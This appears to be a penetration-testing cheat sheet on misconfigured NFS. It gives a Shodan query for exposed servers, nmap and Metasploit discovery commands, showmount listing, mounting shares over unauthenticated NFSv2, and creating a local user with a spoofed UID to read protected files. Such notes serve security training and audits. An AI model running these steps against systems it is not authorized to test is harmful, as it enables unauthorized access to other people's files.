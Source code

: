 NFS Pentesting
  Shodan search query :
port:2049
Misconfigured NFS
A lot of data is obtained in file sharing in most of the companies that are tested for network penetration.
NFS Service Detection in Network with Nmap
1
2
	nmap -n -PN -sS -T5 -p 2049 --script=nfs-showmount 10.10.x.x/24
nmap --script=nfs-ls.nse,nfs-showmount.nse,nfs-statfs.nse -p 2049 10.10.x.x

 ![image](https://github.com/user-attachments/assets/46c6dacc-2f18-4dd3-83b6-c7f985d4eebd)

Network NFS Service Detection with Metasploit
1
2
3
	msf > use auxiliary/scanner/nfs/nfsmount
msf auxiliary(nfsmount) > set RHOSTS 10.10.x.x/24
msf auxiliary(nfsmount) > run

 ![image](https://github.com/user-attachments/assets/713a6c2b-a9a2-42c9-9117-778640dbfdf1)

NFS Shares Listing With “showmount”
1
	showmount -e 10.10.x.x

 ![image](https://github.com/user-attachments/assets/4d97a866-1a85-4b56-9d18-79ede612fcea)

Access to discovered NFS shares
1
2
	mount -t nfs 10.10.x.x:/export/home /mnt/connect_path
mount -t nfs -o vers=2 10.10.x.x:/export/home /mnt/connect_path -o nolock # You should specify to use version 2 because it doesn't have any authentication or authorization.

Access to discovered NFS shares with same user UID Permissions
In the terminal we can see the shared arguments and what UID value they belong to a user.
1
	-rwxr----- 1923 1000 1898 example.doc

We see that there is a document. But we may need to open this doc file with a user with an authorized user UID. First of all, let’s unmount the mount we mounted with the unmount command. Then let’s create a user with the same UID value in the local system.
1
	umount /connect_path

Yes, we have unmounted. Now let’s create a user with the same UID value.
1
	useradd newuser

setting the user UID value
1
	usermod -u 1923 newuser
